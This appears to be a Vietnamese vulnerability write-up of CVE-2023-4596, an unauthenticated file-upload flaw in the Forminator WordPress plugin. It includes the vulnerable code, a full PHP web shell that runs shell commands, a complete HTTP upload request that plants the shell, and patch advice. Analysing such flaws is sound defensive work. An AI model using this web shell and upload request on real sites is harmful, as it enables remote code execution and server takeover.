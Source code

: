 # Critical Arbitrary File Upload Patched in Forminator Plugin CVE-2023-4596.
- CVE-2023-4596.
```js
- The Forminator plugin for WordPress is vulnerable to arbitrary file uploads due to filed type validation occurring 
  after a file has been uploaded to the server in the upload_post_image() function in versions up to, and including, 1.24.6. 
- This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's 
  server which may make remote code execution possible.

Affected Versions: <= 1.24.6
CVSSv3 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSSv3 Score: 9.8
```


### Setup
- Forminator Plugin 1.24.6.
- Tạo 1 form đăng bài viết 
![Alt text](./images/image.png)
- Tạo 1 trang dùng form để post
![Alt text](./images/image-1.png)

### Phân tích
- Lỗ hổng rất đơn giản nhưng ảnh hưởng lớn tới server.
- Lỗ hổng tồn tại ở chức năng wp-content/plugins/forminator/library/fields/postdata.php
![Alt text](./images/image-2.png)
- Chuẩn bị 1 file webshell test.php
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

- Post file đó lên thì bị lỗi định dạng file

![Alt text](./images/image-3.png)

![Alt text](./images/image-4.png)
- Đoạn code thực hiện chức năng upload bình thường

```php
    // Làm sạch file_name
    $file_name = sanitize_file_name( $_FILES[ $field_name ]['name'] ); 
    // TODO: refactor upload to use WP filesystem api.

    // Lưu content file vào tmp
    $file_data        = file_get_contents( $_FILES[ $field_name ]['tmp_name'] );

    $upload_dir       = wp_upload_dir(); // Set upload folder.
    
    // Thay đổi tên file nếu tồn tại.
    $unique_file_name = wp_unique_filename( $upload_dir['path'], $file_name );
    $filename         = basename( $unique_file_name ); // Create base file name.

    // Kiểm tra path đã tồn tại hay chưa.
    if ( wp_mkdir_p( $upload_dir['path'] ) ) {
        $file = $upload_dir['path'] . '/' . $filename;
    } else {
        $file = $upload_dir['basedir'] . '/' . $filename;
    }

```

- Lỗ hổng tại chỗ xử lý logic upload file. Ở đây lại lưu file vào server rồi mới kiểm tra extension của file. 

![Alt text](./images/image-5.png)

- File được upload xong.

![Alt text](./images/image-6.png)

- Kiểm tra ext file xử lý sau nên sẽ trả về false

![Alt text](./images/image-7.png)

- Webshell
![Alt text](./images/image-9.png)

### Payload

```php
POST /wordpress/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 1629
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1fDEB96bG5MXdfjh
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/wordpress/post-data/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244
Connection: close

------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="postdata-1-post-title"

RCE
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="postdata-1-post-image"; filename="test.php"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="referer_url"


------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="forminator_nonce"

5898491232
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="_wp_http_referer"

/wordpress/post-data/
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="form_id"

37
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="page_id"

39
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="form_type"

default
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="current_url"

http://localhost/wordpress/post-data/
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="render_id"

0
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="action"

forminator_submit_form_custom-forms
------WebKitFormBoundary1fDEB96bG5MXdfjh--


```

### Patch và giải pháp
- Update lên phiên bản 1.25.0 hoặc theo hướng dẫn của nhà sản xuất.
- Ở bản vá thì kiểm tra extension file xong rồi mới upload file.
![Alt text](./images/image-8.png)

# Tham khảo
- https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/
- https://www.exploit-db.com/exploits/51664
- https://plugins.trac.wordpress.org/changeset/2954409/forminator/tags/1.25.0/library/fields/postdata.php?old=2935040&old_path=forminator%2Ftags%2F1.24.6%2Flibrary%2Ffields%2Fpostdata.php

